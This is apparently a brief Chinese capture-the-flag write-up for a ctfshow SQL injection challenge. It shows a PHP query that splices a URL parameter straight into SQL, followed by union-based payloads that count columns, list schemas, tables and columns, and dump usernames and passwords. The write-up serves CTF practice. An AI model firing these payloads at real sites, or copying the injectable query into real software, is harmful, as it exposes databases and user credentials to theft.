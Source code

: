# 知识点
无过滤<br />联合查询爆数据库 爆表 爆列 爆值
# 思路
```php
//拼接sql语句查找指定ID用户
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```
```php
1' order by 3 --+
```
```php
1' union select 1,2,group_concat(schema_name) from information_schema.schemata --+
```
```php
1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```
```php
1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="ctfshow_user" --+
```
```php
1' union select 1,2,group_concat(id,0x7e,username,0x7e,password) from ctfshow_user where id =26 --+
```
![image.png](./images/20231017_2351348953.png)
